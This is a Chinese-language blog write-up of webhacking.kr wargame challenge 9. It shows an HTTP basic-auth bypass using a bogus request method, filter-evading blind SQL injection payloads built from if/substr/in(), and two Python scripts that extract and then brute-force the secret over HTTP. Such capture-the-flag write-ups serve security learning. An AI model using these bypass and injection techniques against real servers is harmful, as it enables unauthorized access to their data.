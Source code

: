 ```yaml
---
title: webhacking.kr challenge 9
author: rk700
layout: post
redirect_from: 
  - /writeup/2014/12/23/sql-if-clause
  - /writeup/2014/12/23/sql-if-clause/
tags:
  - webhacking.kr
  - HTTP
  - sql
---
```


这道题花了好久啊才做出来……不愧是这么大分值的题目

首先，直接点击后就是遇到了HTTP basic auth。由于realm是sql injection world，我开始还以为在这里就要有注入……试了各种知道的payload发现没有用，于是在这里卡住了

然后是搜索时偶然发现[这里](http://cd34.com/blog/web-security/hackers-bypass-htaccess-security-by-using-gets-rather-than-get/)提到了他的basic auth被`GETS`方法绕过了，而实际上`GETS`并不是什么正确的方法，是因为配置时只检查了`GET`等常用方法，其他的也被解释成`GET`方法了，这点实在是太二了……所以只要我们使用其他方法就可以绕过这里，比如`OPTION`，就连

<pre>$ curl -b 'PHPSESSID=18r88ol7enbiqja7liuq623c43' 'http://webhacking.kr/challenge/web/web-09/index.php' -X WTF</pre>

这样都可以……

然后该页面有参数`no`，这里是有注入；还有有一个表格，提交参数`pw`，这里应该是得到的答案。具体地，`no`取1或2时，页面返回有Apple或Banana；当`no=3`时，会显示提示说长度是11，数据库的column是`id`和`no`。

对`no`参数尝试注入，发现一旦有危险字符就会返回denied，一个个试下来，很多都被过滤了。最后找到可用的payload是用if加substr，由于大于小于符号什么的也过滤了，所以用的是`in()`。基本格式如下：

<pre>select * from t1 where id=if(substr(name,1,1)in('D'),1,2);</pre>

在上面的语句中，`id=1`会被选中如果其对应的`name`首字符是`D`或者`d`，`id=2`会被选中如果其对应的`name`首字符不是`D`且不是`d`。这里大小写不区分，导致了后面的暴力破……对于这道题，我们需要每次只选中一行，而`no=0`是没有对应的行的，于是用

<pre>no=if(substr(id,1,1)in(0x41),1,0)</pre>

这样来确定`no=1`对应的`id`，得到是`APPLE`。用

<pre>no=if(substr(id,1,1)in(0x41),2,0)</pre>

这样来确定`no=2`对应的`id`，得到是`BANANA`。 最后用

<pre>no=if(substr(id,1,1)in(0x41),3,0)</pre>

这样来确定`no=3`对应的`id`，得到是`ALSRKSWHAQL`。用的代码如下

{% highlight python %}
#!/usr/bin/env python2

import httplib

def makePayload(statement):
    return "/challenge/web/web-09/index.php?no=if(substr(id,%d,1)in(%s),3,0)" % (statement[0], hex(statement[1]))

def checkResponse(response):
    return response.find("Secret") != -1

def doAssert(conn, statement):
    conn.request("WTF", makePayload(statement), "", header)
    response = conn.getresponse()
    content = response.read()

    return checkResponse(content)

if __name__ == "__main__":
    url = "webhacking.kr"
    header = {"cookie":"PHPSESSID=18r88ol7enbiqja7liuq623c43"}
    conn = httplib.HTTPConnection(url)
    result = []
    for idx in range(1,12):
        print "idx %d" % idx
        for code in range(33,127):
            if doAssert(conn, (idx, code)):
                print code
                result.append(chr(code))
                break
    print ''.join(result)
{% endhighlight %}

如上所说，由于没有区分大小写，这里并不能确定。由于总共是`2^11=2048`种情况，我想着并不多可以暴力一次，谁知道跑了好久好久……代码如下

{% highlight python %}
#!/usr/bin/env python2

import httplib
import itertools

if __name__ == "__main__":
    url = "webhacking.kr"
    header = {"cookie":"PHPSESSID=18r88ol7enbiqja7liuq623c43"}
    conn = httplib.HTTPConnection(url)

    for pw in map(''.join, itertools.product(*((c.upper(), c.lower()) for c in "ALSRKSWHAQL"))):
        conn.request("WTF", "/challenge/web/web-09/index.php?pw=%s" % pw, "", header)
        response = conn.getresponse()
        content = response.read()
        print content
{% endhighlight %}

结果跑到最后的一种情况是正确的，对应的是全小写……早知道先试下就好了
